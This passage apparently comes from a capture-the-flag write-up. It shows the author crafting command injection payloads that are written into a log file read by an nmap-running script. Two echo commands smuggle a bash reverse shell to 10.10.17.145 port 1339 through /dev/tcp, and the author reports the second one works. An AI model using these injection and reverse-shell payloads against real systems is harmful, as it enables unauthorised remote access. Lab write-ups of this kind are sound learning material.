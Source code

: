 
![](./IMG/41.png)

> I recraft it as follow

```
echo "1 2 3; bash -i >& /dev/tcp/10.10.17.145/1339 0>&1#" >> /home/kid/logs/hackers
```

![](./IMG/42.png)
> The process looks like
> the nmap command still incomplete  


![](./IMG/43.png)

> When I tried this, the nc get some reply 

![](./IMG/44.png)

![](./IMG/45.png)

> I'm not sure the nmap command not complete is the reason to cause error or not, but I tried to make it complete in next one

```
echo "1 2 3 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.17.145/1339 0>&1' #" >> /home/kid/logs/hackers
```

![](./IMG/46.png)

> It works ... 

